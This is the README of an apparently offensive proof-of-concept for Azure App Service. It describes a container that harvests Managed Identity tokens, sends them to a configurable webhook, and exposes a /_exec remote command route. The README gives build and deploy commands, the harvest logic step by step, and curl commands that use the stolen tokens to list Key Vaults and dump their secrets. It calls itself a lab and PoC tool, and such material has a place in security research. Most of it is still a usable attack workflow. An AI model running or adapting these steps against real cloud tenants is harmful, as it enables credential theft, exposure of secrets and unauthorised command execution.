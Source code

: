 # Azure App Service Identity Harvest PoC

This PoC deploys a custom container to an Azure App Service that:
	-	Exposes a simple health endpoint
	-	Optionally allows controlled remote command execution (/_exec)
	-	Harvests Managed Identity tokens (System-Assigned + optionally User-Assigned) from the App Service environment
	-	Exfiltrates tokens to a provided WEBHOOK_URL

⸻

Features
	-	IMDS/MSI endpoint discovery — Uses IDENTITY_ENDPOINT / MSI_ENDPOINT from env if available, otherwise falls back to known IP:port patterns.
	-	Multiple API versions — Supports api-version variants for both new and legacy MSI endpoints.
	-	Resource coverage — Requests tokens for:
	-	Azure Resource Manager (https://management.azure.com/)
	-	Azure Key Vault (https://vault.azure.net/)
	-	Command execution route — POST / _exec with a shared secret for ad-hoc commands (lab use only).

## Build & Push
```bash
# Vars
ACR_LOGIN_SERVER="yourregistry.azurecr.io"
ACR_USER="registry-username"
ACR_PASS="registry-password"
REPO="appservice-harvest"
TAG="v1"
IMAGE="$ACR_LOGIN_SERVER/$REPO:$TAG"

# Login to ACR
echo "$ACR_PASS" | docker login "$ACR_LOGIN_SERVER" -u "$ACR_USER" --password-stdin

# Build + push for linux/amd64 (App Service expects this)
docker buildx build \
  --platform linux/amd64 \
  -t "$IMAGE" \
  --push \
  .
```

## Deploy to Web App
```bash
# Configure container
az webapp config container set \
  -g "$AZ_RESOURCE_GROUP" -n "$WEBAPP" \
  --container-image-name "$ACR_LOGIN_SERVER/$REPO:$TAG" \
  --container-registry-url "https://$ACR_LOGIN_SERVER" \
  --container-registry-user "$ACR_USER" \
  --container-registry-password "$ACR_PASS"

# Optional: restart via Kudu (avoids full re-deploy)
curl -u "$KUDU_USER:$KUDU_PASS" \
  -X POST "https://$WEBAPP.scm.azurewebsites.net/api/app/restart"
```

## Environment Variables
| Name        | Purpose                                              |
|-------------|------------------------------------------------------|
| WEBHOOK_URL | Where harvested tokens are POSTed                    |
| UAMI_CID    | Optional client ID for a User-Assigned MI            |
| ENABLE_CMD  | Set 1 to enable /_exec                                |
| CMD_TOKEN   | Shared secret for /_exec requests                     |
| CMD_ALLOW   | Comma-separated list of allowed commands (empty = allow all) |

## Routes
	-	/ — Basic health OK
	-	/ _health — JSON health check
	-	/ _exec — POST JSON {"cmd":"id"} with X-Cmd-Token header
	-	(Harvest runs in background on container start)

⸻

## Harvest Logic
	1.	Checks environment for IDENTITY_ENDPOINT or MSI_ENDPOINT.
	2.	Iterates over known MSI URL formats (IMDS + legacy App Service).
	3.	Requests tokens for ARM and Key Vault.
	4.	Optionally requests UAMI tokens if UAMI_CID set.
	5.	Exfiltrates results to WEBHOOK_URL.


## Using the Tokens
### Extract from webhook payload
```bash
TOK_KV=$(jq -r '.data | fromjson | .tokens.system_kv // .tokens.uami_kv' exfil.json)
TOK_ARM=$(jq -r '.data | fromjson | .tokens.system_arm // .tokens.uami_arm' exfil.json)
```

### Enumerate Vaults (ARM token)
```bash
SUB="<subscription-id>"
curl -sS \
  "https://management.azure.com/subscriptions/$SUB/providers/Microsoft.KeyVault/vaults?api-version=2023-07-01" \
  -H "Authorization: Bearer $TOK_ARM" | jq '.value[].name'
```

### Dump Secrets (KV token)
```bash
VAULT="my-vault-name"
API="7.4"
curl -sS "https://$VAULT.vault.azure.net/secrets?api-version=$API" \
  -H "Authorization: Bearer $TOK_KV" | jq .
```

## Troubleshooting
	-	Container not starting — Ensure --platform linux/amd64 in docker buildx.
	-	Image pull failures — Disable MI image pull if needed:
    ```bash
    az resource update \
  --ids "/subscriptions/$SUB/resourceGroups/$RG/providers/Microsoft.Web/sites/$WEBAPP/config/web" \
  --set properties.acrUseManagedIdentityCreds=false

    ```
    -	No tokens — Confirm MI is enabled for the App Service, try both IDENTITY_ENDPOINT and MSI_ENDPOINT.

